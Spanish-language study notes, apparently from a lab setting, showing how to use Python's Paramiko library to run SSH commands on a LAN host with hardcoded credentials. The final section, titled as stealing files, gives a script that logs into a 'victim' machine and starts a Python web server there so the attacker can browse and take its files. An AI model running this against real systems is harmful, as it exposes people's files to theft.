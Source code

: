 Paramiko es una librería que se utiliza para la automatización de tareas que requieren conectividad a través del protocolo SSH.
```python
import paramiko
import time

host = '192.168.0.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

client = paramiko.SSHClient()
client.load_host_keys('C:/Users/mario/.ssh/known_hosts') # Aquí cargamos este fichero para indicar que el host ya es conocido.
client.connect(host, username=user, password=password) # Cargamos las variables.
client.set_missing_host_key_policy(paramiko.AutoAddPolicy() ) # Esto es para que el host sea conocido por la máquina.

stdin, stdout, stderr = client.exec_command('ls') # En estas 3 variables se guardan los posibles errores o salidas normales del comando.

time.sleep(2) # Damos tiempo a que los parámetros se hayan recogido en el punto anterior.

resultado = stdout.read().decode() # Recogemos el standar output en una variable.
print(resultado)
```

![[Pasted image 20221217085658.png]]
También podemos mejorar el código de tal forma que en caso de que la conexión tenga algún error, que se nos muestre dicho mensaje por pantalla:
```python
import paramiko
import time

host = '192.168.1.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

try:

    client = paramiko.SSHClient()
    client.load_host_keys('C:/Users/mario/.ssh/known_hosts') # Aquí cargamos este fichero para indicar que el host ya es conocido.
    client.connect(host, username=user, password=password) # Cargamos las variables.
    client.set_missing_host_key_policy( paramiko.AutoAddPolicy() ) # Esto es para que el host sea conocido por la máquina.

    stdin, stdout, stderr = client.exec_command('ls') # En estas 3 variables se guardan los posibles errores o salidas normales del comando.
    time.sleep(2) # Damos tiempo a que los parámetros se hayan recogido en el punto anterior.
    resultado = stdout.read().decode() # Recogemos el standar output en una variable.
    print(resultado)

except:

    print("Algo ha fallado en la conexión...")
```
![[Pasted image 20221217085839.png]]
# ROBAR ARCHIVOS POR SSH CON PYTHON
También podemos ejecutar el comando para montar un servidor web con python y así poder robar los archivos:
```python
import paramiko

host = '192.168.0.9' # Ponemos los datos del servidor donde nos queramos conectar.
user = 'mario'
password = '123123'

try:

    client = paramiko.SSHClient()

    client.load_host_keys('C:/Users/mario/.ssh/known_hosts')

    client.connect(host, username=user, password=password)

    client.set_missing_host_key_policy( paramiko.AutoAddPolicy() )

    print("Debes escribir esta dirección en el navegador para acceder a los archivos de la víctima: ",host)

    client.exec_command('python3 -m http.server 81') # Montramos el servidor Python por el puerto que queramos.

except:

    print("Hubo un error...")
```

Y ya tenemos acceso desde nuestra máquina atacante a los archivos de la víctima:

![[Pasted image 20221217085936.png]]

